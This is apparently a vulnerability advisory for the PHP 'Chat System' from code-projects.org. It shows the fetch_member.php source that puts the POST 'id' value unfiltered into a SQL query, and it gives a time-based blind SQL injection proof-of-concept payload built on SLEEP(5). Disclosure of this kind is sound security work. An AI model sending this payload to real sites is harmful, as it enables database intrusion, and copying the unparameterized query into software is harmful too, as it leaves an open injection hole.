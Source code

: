 # Chat System Using PHP has sql injection in /user/fetch_member.php



## supplier



https://code-projects.org/chat-system-using-php-source-code/



## Vulnerability file



/user/fetch_member.php



## describe


The id parameter in /user/fetch_member.php is not properly sanitized or parameterized, which leaves it vulnerable to SQL injection attacks. Attackers can exploit this by injecting malicious SQL code to manipulate the database queries. Utilizing time-based SQL injection methods, they can introduce intentional delays in the database response through functions such as SLEEP(). This technique can be employed to verify the existence of the vulnerability and may also be used to extract sensitive information from the database.



## **Code analysis**



```php
<?php
	include('../conn.php');
	if(isset($_POST['fetch'])){
		$id = $_POST['id'];
		
		$query=mysqli_query($conn,"select * from `chat` left join `user` on user.userid=chat.userid where chatroomid='$id' order by chat_date asc") or die(mysqli_error());
		while($row=mysqli_fetch_array($query)){
		?>	
		<div>
			<img src="../<?php if(empty($row['photo'])){echo "upload/profile.jpg";}else{echo $row['photo'];} ?>" style="height:30px; width:30px; position:relative; top:15px; left:10px;">
			<span style="font-size:10px; position:relative; top:7px; left:15px;"><i><?php echo date('M-d-Y h:i A',strtotime($row['chat_date'])); ?></i></span><br>
			<span style="font-size:11px; position:relative; top:-2px; left:50px;"><strong><?php echo $row['uname']; ?></strong>: <?php echo $row['message']; ?></span><br>
		</div>
		<div style="height:5px;"></div>
		<?php
		}
	}	
?>
```

Inserting $_POST['id'] into Mysql query without any filter. A time-based blind SQL injection can be triggered.





## POC

```
fetch=1&id=1' AND (SELECT 1003 FROM (SELECT(SLEEP(5)))bYhJ) AND 'VosV'='VosV
```

Send this request, you can observe an additional 5 seconds time delay triggered by the time-based injection.
